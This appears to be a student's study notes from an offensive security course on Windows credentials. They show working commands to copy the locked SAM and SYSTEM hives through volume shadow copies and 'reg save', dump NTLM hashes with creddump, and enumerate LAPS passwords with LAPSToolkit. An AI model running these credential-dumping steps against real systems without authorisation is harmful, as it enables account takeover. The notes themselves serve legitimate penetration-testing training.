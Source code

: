 # Windows credentials

Windows implements a variety of authentication and post-authentication privilege mechanisms 
that can become quite complex in an Active Directory environment.

# Local windows Credentials

Windows can authenticate local user accounts as well as those belonging to a domain, which are 
stored within Active Directory

# SAM Database

Local Windows credentials are stored in the Security Account Manager (SAM) database670 as 
password hashes using the NTLM hashing format,671 which is based on the MD4 algorithm.

Security identifier in windows 
S-R-I-S

In this structure, the SID begins with a literal “S” to identify the string as a SID, followed by a 
revision level (usually set to “1”), an identifier-authority value (often “5”) and one or more 
subauthority values.
The subauthority will always end with a Relative Identifier (RID)675 representing a specific object 
on the machine.

Let’s use PowerShell and WMI to locate the SID of the local administrator account on our 
Windows 10 victim machine

```
PS C:\Users\HP> $env:computername
WINWORK

PS C:\Users\HP> [wmi] "Win32_userAccount.Domain='WINWORK',Name='Administrator'"


AccountType : 512
Caption     : WINWORK\Administrator
Domain      : WINWORK
SID         : S-1-5-21-1182164374-3560096269-1489256248-500
FullName    :
Name        : Administrator

```

In order to otain credentials from SAM database. 
located at `C:\Windows\System32\config\SAM` but the SYSTEM process has an exclusice lock on it.

potential workarounds.
1/ using Volume Shadow Copy Server, we create a snapshot of the local hard drive with vssadmin. create shadow is awailable in servers.

2/ through wmi we will create a shadow copy of the source deive with `Volume='C:\'`

`wmic shadowcopy call create Volume='C:\'`
This has to be run in Administrator

```
C:\WINDOWS\system32>wmic shadowcopy call create volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{7C036CC7-93E5-4FCD-AF60-7B6962DD711F}";
};
```

to verify we use vssadmin


vssadmin list shadows

```
C:\WINDOWS\system32>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {cdf70d69-615e-4c56-9359-c9ca584f0d3e}
   Contained 1 shadow copies at creation time: 25-08-2022 12:16:16
      Shadow Copy ID: {7c036cc7-93e5-4fcd-af60-7b6962dd711f}
         Original Volume: (C:)\\?\Volume{93e4830a-3122-41fd-acfa-b6c2e7f186ec}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: winwork.misthios.ncg.in
         Service Machine: winwork.misthios.ncg.in
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

we can use this shadow copy to copy file:

```
C:\WINDOWS\system32>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\
        1 file(s) copied.
```

Although we have copied the SAM database, it is partially encrypted by either RC4 or AES. The keys are stored in a system file also locked by the system account

```
C:\WINDOWS\system32>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\Users\HP\Documents\pen300\book\chapter12\system
        1 file(s) copied.
```

We can also obtain a copy of the SAM database and SYSTEM files from the registry in the
HKLM\sam and HKLM\system hives, respectively. Administrative permissions are required to
read and copy.

```
C:\WINDOWS\system32>reg save HKLM\sam C:\users\HP\sam
The operation completed successfully.

C:\WINDOWS\system32>reg save HKLM\system C:\users\HP\system
The operation completed successfully.
```

two tools to use to decrypt he signatures

1. mimikatz
2. creddump

we will use creddump
however the correct location maybe here
for credential dump : https://github.com/moyix/creddump
for pycrypto its now pycryptodome: pip install pycryptodome

but pycrypto has problems in python currently the workaround is  to use: https://bytemeta.vip/repo/lgandx/Responder/issues/144
dowload release from https://github.com/pycrypto/pycrypto
sudo python ./setup.py build
sudo python ./setup.py install

```
kali@kali:~/creddump$ python pwdump.py ~/Downloads/system ~/Downloads/SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HP:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
m:1007:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

these are the ntlm hashes. which can be cracked.

### 12.1.1.1 Exercises
1. Dump the SAM and SYSTEM files using a Volume Shadow copy and decrypt the NTLM
hashes with Creddump7.

done above

2. Obtain the NTLM hash for the local administrator account by dumping the SAM and
SYSTEM files from the registry.

we can download the files through this method and then rest of the steps remain same

3. Run a Meterpreter agent on the Windows 10 client and use hashdump to dump the NTLM
hashes.
meterpreter also dumps hashdump

# Hardening the local administrator account

MIcrosoft introduced Group Policy Preferences. this is stored in SYSVOl folder which must be accessible to all computers in Active Directory. And then it was AES encrypted by Microsoft.

MIcrosoft published the private key on MSDn. Get-GPPPassword powershell scrupt could easily locate and decrypt any passwords found in affected systems SYSVOL folder

Microsoft introduced LAPS in 2015 whcihc offered a secure and scalable way of remotely managing the local administrator password for domain joined computers.

it inroduces two new attributes tot the computer object into active directory.

1. ms-mcs-AdmPwdExpirationTime- which registers the expiration time of a password as directed through group policy.
2.  ms-mcs-AdmPwd contains clear text password through a group policy. 

LAPS uses admpwd.dll to change the local administrator password and push the
new password to the ms-mcs-AdmPwd attribute of the associated computer object.

Instead, we can use the LAPSToolkit692 PowerShell script, which is essentially a wrapper script
around the PowerView693 Active Directory enumeration PowerShell script.

# LAPSToolkit - wrap around powerview
https://github.com/leoloobeek/LAPSToolkit

after amsi
```
PS C:\Users\HP\Documents\pen300\book\chapter12> GET-LAPSComputers
Exception calling "GetCurrentDomain" with "0" argument(s): "Current security context is 
not associated with an Active Directory domain or forest."
At C:\Users\HP\Documents\pen300\book\chapter12\LAPSToolkit.ps1:952 char:9
+         [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent ...
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : ActiveDirectoryOperationException
 
WARNING: Error: Exception calling "FindAll" with "0" argument(s): "Unknown error 
(0x80005000)"
```

this error comes because of lack of ad
This will show the delegated
```
Find-LAPSDelegatedGroups
```
we can also use netgroupmemeber -GroupName to specify the group name.

```
PS C:\Tools> Get-NetGroupMember -GroupName "LAPS Password Readers"
```

### 12.1.2.1 Exercises
1. Repeat the LAPS enumeration and obtain the clear text password using LAPSToolKit from
the Windows 10 victim machine

2. Create a Meterpreter agent on the Windows 10 victim machine and perform the same
actions remotely from your Kali Linux machine.

# Access Tokens























